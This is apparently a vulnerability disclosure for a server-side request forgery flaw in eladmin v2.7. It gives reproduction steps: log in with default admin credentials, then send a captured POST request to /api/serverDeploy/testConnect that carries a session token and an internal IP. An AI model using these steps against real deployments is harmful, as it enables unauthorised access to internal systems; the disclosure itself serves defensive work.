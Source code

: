 # eladmin_ssrf

BUG_Author: shadia0

Affected version: eladmin v2.7 and before

Project Link: https://github.com/elunez/eladmin

URL: /api/serverDeploy/testConnect

Parameter: "ip"(POST)

## Description:

The eladmin v2.7 and before is vulnerable to Server-Side Request Forgery (SSRF) via `ServerDeployController.java`. The malicious actor can use this vulnerability to make arbitrary requests to internal or external systems.
1. Log in to the backend with the project's default password `admin/123456`. Select '运维管理(Operations Management)' - '服务器(Server)' - '新增(Add New Server)' from the left menu in order, the server configuration box pops up.  Here you can fill in the server's IP. If you directly fill in a domain name here, it will be intercepted by the front end, but the back-end interface does not do this check.
<img width="1503" alt="image" src="https://github.com/user-attachments/assets/cbe0cbb4-8df4-4fcb-960e-accb52374759">
<img width="1579" alt="image" src="https://github.com/user-attachments/assets/ac0b40ec-eb51-44bb-8c88-05b6687c5511">

2. By filling in a valid IP and clicking 测试连接(Test Connection), you can trigger the following request packet.
   
```
POST /api/serverDeploy/testConnect HTTP/1.1
Host: localhost:8013
Content-Length: 104
sec-ch-ua: 
Accept: application/json, text/plain, */*
Content-Type: application/json
sec-ch-ua-mobile: ?0
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJqdGkiOiJiM2E5OWNkY2NiNzk0NzRjOGUzYTUyN2E1ZmUzY2NiYiIsInVzZXIiOiJhZG1pbiIsInN1YiI6ImFkbWluIn0.NmbDtGywNsCE1dtK8ilWCwsEoPxO5F-aqj2jBIzyq45EDYfF9-PTqakUJz50fRo-D-sX8cBJpwQAUZpevgyijQ
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.110 Safari/537.36
sec-ch-ua-platform: ""
Origin: http://localhost:8013
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8013/mnt/mnt/serverDeploy
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ELADMIN-TOEKN=Bearer%20eyJhbGciOiJIUzUxMiJ9.eyJqdGkiOiJiM2E5OWNkY2NiNzk0NzRjOGUzYTUyN2E1ZmUzY2NiYiIsInVzZXIiOiJhZG1pbiIsInN1YiI6ImFkbWluIn0.NmbDtGywNsCE1dtK8ilWCwsEoPxO5F-aqj2jBIzyq45EDYfF9-PTqakUJz50fRo-D-sX8cBJpwQAUZpevgyijQ
Connection: close

{"id":null,"name":"test_server","ip":"127.0.0.1","port":2222,"account":"root","password":"wrong"}
```
